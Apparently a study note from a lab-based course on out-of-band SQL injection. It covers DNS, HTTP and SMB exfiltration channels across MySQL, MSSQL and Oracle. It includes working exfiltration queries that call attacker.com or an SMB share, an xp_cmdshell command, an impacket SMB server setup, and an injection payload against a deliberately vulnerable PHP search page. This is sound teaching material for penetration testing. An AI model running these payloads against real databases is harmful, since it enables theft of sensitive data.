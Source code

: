 Out-of-band (OOB) SQL injection is an attack technique that pentester/red teamers use to exfiltrate data or execute malicious actions when direct or traditional methods are ineffective. Unlike In-band SQL injection, where the attacker relies on the same channel for attack and data retrieval, Out-of-band SQL injection utilizes separate channels for sending the payload and receiving the response. Out-of-band techniques leverage features like **HTTP** requests, **DNS** queries, **SMB** protocol, or other network protocols that the database server might have access to, enabling attackers to circumvent firewalls, intrusion detection systems, and other security measures.
	![](Pasted%20image%2020250106015134.png)

One of the key advantages of Out-of-band SQL injection is its stealth and reliability. By using **different communication channels**, attackers can minimize the risk of detection and maintain a persistent connection with the compromised system. For instance, an attacker might inject a **SQL payload that triggers the database server to make a DNS request** to a malicious domain controlled by the attacker. The response can then be used to extract sensitive data without alerting security mechanisms that monitor direct database interactions. This method allows attackers to exploit vulnerabilities even in complex network environments where direct connectivity between the attacker and the target is limited or scrutinized.


## Why Use OOB
In scenarios where direct responses are sanitised or limited by security measures, OOB channels enable attackers to exfiltrate data without immediate feedback from the server. For instance, security mechanisms like **stored procedures**, **output encoding**, and a**pplication-level constraints** can **prevent direct responses**, making traditional SQL injection attacks ineffective. Out-of-band techniques, such as using DNS or HTTP requests, allow data to be sent to an external server controlled by the attacker, circumventing these restrictions.

Additionally, **Intrusion Detection Systems (IDS)** and **Web Application Firewalls (WAFs)** often **monitor and log SQL query responses for suspicious activity**, blocking direct responses from potentially malicious queries. By leveraging OOB channels, attackers can avoid detection by using less scrutinized network protocols like DNS or SMB to transfer data. This is particularly useful in network environments with limited direct connectivity between the attacker and the database server, such as when the server is behind a firewall or in a different network segment.

## Techniques in Different Databases
Out-of-band SQL injection attacks utilise the methodology of writing to another communication channel through a crafted query. This technique is effective for exfiltrating data or performing malicious actions when direct interaction with the database is restricted. There are multiple commands within a database that may allow exfiltration, but below is a list of the most commonly used in various database systems:

### **MySQL and MariaDB**
```MySQL
SELECT sensitive_data FROM users INTO OUTFILE '/tmp/out.txt';
```

## **Microsoft SQL Server (MSSQL)**
In MSSQL, Out-of-band SQL injection can be performed using features like [xp_cmdshell](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16), which allows the execution of shell commands directly from SQL queries. Alternatively, `OPENROWSET` or `BULK INSERT` can be used to interact with external data sources, facilitating data exfiltration through OOB channels. This can be leveraged to write data to a file accessible via a network share:
```MySQL
EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\10.10.58.187\logs\out.txt" -c -T';
```

## **Oracle**
In Oracle databases, Out-of-band SQL injection can be executed using the [UTL_HTTP](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_HTTP.html) or [UTL_FILE](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_FILE.html) packages. For instance, the UTL_HTTP package can be used to send HTTP requests with sensitive data:
``` MySQL
DECLARE
  req UTL_HTTP.REQ;
  resp UTL_HTTP.RESP;
BEGIN
  req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);
  UTL_HTTP.GET_RESPONSE(req);
END;
```


## Examples of Out-of-band Techniques
Out-of-band SQL injection techniques in MySQL and MariaDB can utilize various network protocols to exfiltrate data. The primary methods include DNS exfiltration, HTTP requests, and SMB shares. Each of these techniques can be applied depending on the capabilities of the MySQL/MariaDB environment and the network setup.

### **HTTP Requests**
By leveraging database functions that allow HTTP requests, attackers can send sensitive data directly to a web server they control. This method exploits database functionalities that can make outbound HTTP connections. Although MySQL and MariaDB do not natively support HTTP requests, this can be done through external scripts or User Defined Functions (UDFs) if the database is configured to allow such operations.

First, the UDF needs to be created and installed to support HTTP requests. This setup is complex and usually involves additional configuration. An example query would look like:

```
`http_post('http://attacker.com/exfiltrate', sensitive_data) FROM books;`
```

Note:
	HTTP request exfiltration can be implemented on Windows and Linux (Ubuntu) systems, depending on the database's support for external scripts or UDFs that enable HTTP requests.

### **DNS Exfiltration**
Attackers can use SQL queries to generate DNS requests with encoded data, which is sent to a malicious DNS server controlled by the attacker. This technique bypasses HTTP-based monitoring systems and leverages the database's ability to perform DNS lookups.

As discussed above, MySQL does not natively support generating DNS requests through SQL commands alone, attackers might use other means such as custom User-Defined Functions (UDFs) or system-level scripts to perform DNS lookups.

### **SMB Exfiltration**
SMB exfiltration involves writing query results to an SMB share on an external server. This technique is particularly effective in Windows environments but can also be configured in Linux systems with the right setup. an example query would look like `SELECT sensitive_data INTO OUTFILE '\\\\10.10.162.175\\logs\\out.txt';`

This is fully supported as Windows natively supports SMB/UNC paths. Linux (Ubuntu): While direct UNC paths are more native to Windows, SMB shares can be mounted and accessed in Linux using tools like `smbclient` or by mounting the share to a local directory. Directly using UNC paths in SQL queries may require additional setup or scripts to facilitate the interaction.


## Practical Example

### **Scenario**
In this scenario, we would enable a network share on the AttackBox at `ATTACKBOX_IP\logs`. This share is accessible over the network and allows files from other machines to be written to it. You may assume a scenario when you get a vulnerable system and want to pivot data to another network share system. The attacker will leverage this share to exfiltrate data Out-of-band. To have a network share, we would start the AttackBox and execute the following command in the terminal:
- Navigate to `impacket` directory using `cd /opt/impacket/examples`
- Enter the command `python3.9 smbserver.py -smb2support -comment "My Logs Server" -debug logs /tmp` to start the SMB server sharing the `/tmp` directory.
- You can access the contents of the network share by entering the command `smbclient //ATTACKBOX_IP/logs -U guest -N`. This would allow you to connect to the network share, and then you can issue the command `ls` to list all the commands.

We have the same web application with a search feature that queries visitors who visit the library. The server-side code for this feature is vulnerable to SQL injection, and you can access it at `http://MACHINE_IP/oob/search_visitor.php?visitor_name=Tim`.
	![](Pasted%20image%2020250106023252.png)

The server code looks like this:
```php
$visitor_name = $_GET['visitor_name'] ?? '';

$sql = "SELECT * FROM visitor WHERE name = '$visitor_name'";

echo "<p>Generated SQL Query: $sql</p>";

// Execute multi-query
if ($conn->multi_query($sql)) {
    do {
        // Store first result set
        if ($result = $conn->store_result()) {
            if ($result->num_rows > 0) {
                while ($row = $result->fetch_assoc()) {
```

### **Consideration**
It is important to note that the MySQL system variable `secure_file_priv` may be set. When set, this variable contains a directory pathname, and MySQL will only allow files to be written to this specified directory. This security measure helps mitigate the risk of unauthorised file operations.
- **When secure_file_priv is Set**: MySQL will restrict file operations such as **INTO OUTFILE** to the specified directory. This means attackers can only write files to this directory, limiting their ability to exfiltrate data to arbitrary locations.
- **When secure_file_priv is Empty**: If the `secure_file_priv` variable is empty, MySQL does not impose any directory restrictions, allowing files to be written to any directory accessible by the MySQL server process. This configuration poses a higher risk as it provides more flexibility for attackers.

*Note*:
	Attackers typically do not have direct access to check the value of the secure_file_priv variable. As a result, they must rely on hit-and-trial methods to determine if and where they can write files, testing various paths to see if file operations succeed.

### **Preparing the Payload**
To exploit this vulnerability, the attacker crafts a payload to inject into the `visitor_name` parameter. The payload will be designed to execute an additional SQL query that writes the database version information to an external SMB share.
```
1'; SELECT @@version INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt'; --
```

To access the file, use the `ls /tmp` to see the file received in the `/tmp` directory.